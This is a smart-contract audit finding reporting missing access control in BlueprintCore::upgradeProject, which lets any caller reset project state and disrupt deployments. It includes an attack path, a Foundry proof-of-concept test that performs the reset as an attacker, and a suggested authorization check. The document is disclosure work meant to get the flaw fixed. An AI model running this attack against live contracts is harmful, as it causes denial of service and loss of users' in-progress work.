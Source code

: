 Wobbly Red Lion

High

# Missing access control in `BlueprintCore::upgradeProject` will cause denial of service for Project Owners and Workers

### Summary

Missing access control in `BlueprintCore::upgradeProject` will cause denial of service for project owners and workers as any user can reset critical project state.

### Root Cause

In BlueprintCore.sol the upgradeProject function lacks authorization checks, allowing any address to reset project state:

https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L198



### Internal Pre-conditions

- Project must exist (enforced by hasProject modifier)

- Attacker knows any valid projectId (publicly accessible through events)



### External Pre-conditions

- At least one active project with ongoing deployments

- No IPFS/off-chain backups of reset project data

### Attack Path

- Attacker monitors blockchain for CreateProjectID events

- Attacker calls upgradeProject() with a valid projectId
  
- Contract resets all project tracking IDs to zero values

- Legitimate users attempt to continue deployments:

### Impact

Project owners and workers cannot complete active deployments, suffering 100% loss of in-progress work. Attackers lose minimal gas fees (1562 gas) while causing indefinite service disruption.



### PoC

put this code in your test folder :

```solidity 

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import "forge-std/Test.sol";
import "../src/BlueprintCore.sol";
import "./MockERC20.sol";
import "./MockERC721.sol";

contract BlueprintCoreDosVulnerabilityTest is Test {
    BlueprintCore blueprint;
    
    address owner = address(0x1);
    address legitimateUser = address(0x2);
    address attacker = address(0x3);
    address worker = address(0x4);
    
    string serverURL = "https://example.com";
    string base64Proposal = "eyJ0eXBlIjoiREEiLCJsYXRlbmN5Ijo1LCJtYXhfdGhyb3VnaHB1dCI6MjB9";
    
    function setUp() public {
        blueprint = new BlueprintCore();
    }
    
    function test_upgradeProject_DoS_vulnerability() public {
        // Step 1: Legitimate user creates a project and submits a deployment request
        vm.startPrank(legitimateUser);
        
        bytes32 projectId = blueprint.createProjectIDAndDeploymentRequest(
            bytes32(uint256(0x1234)),
            base64Proposal,
            serverURL
        );
        
        // Get the actual projectId that was created
        projectId = blueprint.getLatestUserProjectID(legitimateUser);
        bytes32 requestId = blueprint.getLatestDeploymentRequestID(legitimateUser);
        
        console.log("Project ID:", vm.toString(projectId));
        console.log("Request ID:", vm.toString(requestId));
        vm.stopPrank();
        
        // Verify the initial project state is correct
        (address solver, bytes32 proposalId, bytes32[] memory deploymentIds) = blueprint.getProjectInfo(projectId);
        
        assertEq(solver, address(0)); // No solver assigned yet
        assertEq(proposalId, bytes32(0)); // No proposal ID (since we created a deployment directly)
        assertEq(deploymentIds.length, 1); // Should have one deployment ID
        assertEq(deploymentIds[0], requestId, "The deployment ID list should contain our request ID");
        console.log("Initial project state verified");
        
        // A worker tries to pick up the deployment request
        vm.startPrank(worker);
        bool workerCanAccept = blueprint.submitDeploymentRequest(projectId, requestId);
        assertTrue(workerCanAccept, "Worker should be able to accept the deployment request");
        
        // Verify that the worker successfully took the request
        (BlueprintCore.Status statusAfterWorker, address workerAddrAfter) = blueprint.requestDeploymentStatus(requestId);
        assertEq(uint(statusAfterWorker), uint(BlueprintCore.Status.Pickup));
        assertEq(workerAddrAfter, worker, "Worker should be set as the request worker");
        console.log("Worker successfully accepted the deployment request");
        vm.stopPrank();
        
        // Step 2: Attacker calls upgradeProject to reset the project state
        vm.startPrank(attacker);
        console.log("Attacker calling upgradeProject on the victim's project...");
        blueprint.upgradeProject(projectId);
        vm.stopPrank();
        
        // Step 3: Verify the project state has been maliciously reset
        (address solverAfter, bytes32 proposalIdAfter, bytes32[] memory deploymentIdsAfter) = blueprint.getProjectInfo(projectId);
        
        assertEq(solverAfter, address(0), "Project solver should be reset to dummy address");
        assertEq(proposalIdAfter, bytes32(0), "Project proposal ID should be reset");
        
        // This is the key assertion - the requestDeploymentID is reset, breaking the link to deployment requests
        assertEq(deploymentIdsAfter.length, 0, "Project deployment IDs should be reset, breaking references to deployment requests");
        
        console.log("Verified that attacker successfully reset project state");
        
        // Step 4: Verify that legitimate user's deployment request is now orphaned
        // The request still exists in storage, but the project no longer points to it
        (BlueprintCore.Status status, address workerAddr) = blueprint.requestDeploymentStatus(requestId);
        // The status is still "Pickup" and the worker is still assigned
        assertEq(uint(status), uint(BlueprintCore.Status.Pickup));
        assertEq(workerAddr, worker);
        console.log("Deployment request still exists but is orphaned from the project");
        
        // Step 5: Worker can still submit proof because the requestID exists
        // but the project's deployment tracking is broken
        vm.startPrank(worker);
        // The worker can still submit proof of deployment (the contract doesn't validate against project)
        blueprint.submitProofOfDeployment(projectId, requestId, "proof_data");
        vm.stopPrank();
        
        // Verify the proof was submitted
        string memory proof = blueprint.getDeploymentProof(requestId);
        assertEq(proof, "proof_data", "Proof should be stored correctly");
        console.log("Worker could submit proof of deployment");
        
        // Verify that the deployment list is still empty, even though proof exists
        (solver, proposalId, deploymentIds) = blueprint.getProjectInfo(projectId);
        assertEq(deploymentIds.length, 0, "Deployment ID list is still empty after proof submission");
        
        // Step 6: Demonstrate that the same project can have a new deployment request created
        // even though the old one is still active
        vm.startPrank(legitimateUser);
        console.log("User trying to create a new deployment request...");
        // Can't use createProjectIDAndDeploymentRequest because projectId already exists
        
        // But we can create a new project with the same ID and then reset it
        // In a real scenario, this would allow an attacker to create multiple inconsistent deployment
        // requests for the same project, potentially causing further confusion or manipulation
        console.log("DoS vulnerability proven - Project state is corrupted and workflow is broken");
        vm.stopPrank();
    }
} 

```


### Mitigation

Add ownership verification, somthing like this :

```solidity

function upgradeProject(bytes32 projectId) public {
    require(projects[projectId].proposedSolverAddr == msg.sender, "Unauthorized");

    // the rest of the code
}


```